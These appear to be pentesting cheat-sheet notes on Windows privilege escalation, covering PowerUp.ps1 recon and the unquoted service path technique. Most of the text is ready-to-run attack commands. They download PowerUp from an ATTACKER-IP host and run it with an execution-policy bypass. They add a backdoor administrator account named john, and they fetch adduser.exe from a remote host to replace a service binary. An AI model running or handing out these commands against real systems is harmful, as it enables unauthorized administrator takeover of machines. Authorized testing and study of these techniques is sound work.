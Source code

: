 ```powershell
Get-LocalGroupMember administrators
```

Automation (Never trust blindly)

* Recon exploitable vectors
* `https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc`

```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 /var/www/html
```

```powershell
iwr -uri http://ATTACKER-IP/PowerUp.ps1 -o PowerUp.ps1
powershell -ep bypass
Import-Module ./PowerUp.ps1
Get-ModifiableServiceFile
Get-UnquotedService

# Abuse functions
# "net user john password123! /add"
# "net localgroup Administrators john /add"
Write-Binary
```

## Unquoted Service Path

Service default loading path

```plain
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My Service\service.exe
```

Find (Recon)

```powershell
# List service with unquoted paths
Get-CimInstance -ClassName win32_service | Select Name,Startmode,State,PathName | Where { $_.PathName -notmatch "^.:\\WINDOWS" -and $_.PathName -match "^.:" }
# non-powershell
wmic service get name, pathname | findstr /i /v ".:\\WINDOWS" | findstr /i "^.:"

# List service path permission search for (W)rite or (F)ullControl 
Get-ACL "Path/To/Service" | Select -expand Access
# non-powershell
icacls "Path/To/Service" 
```

Replace (Exploit)

```powershell
# Replace service
Stop-Service ServiceName
iwr -uri http://192.168.1.2/adduser.exe -Outfile Current.exe
copy Current.exe "Path/To/Service"
Start-Service ServiceName
```
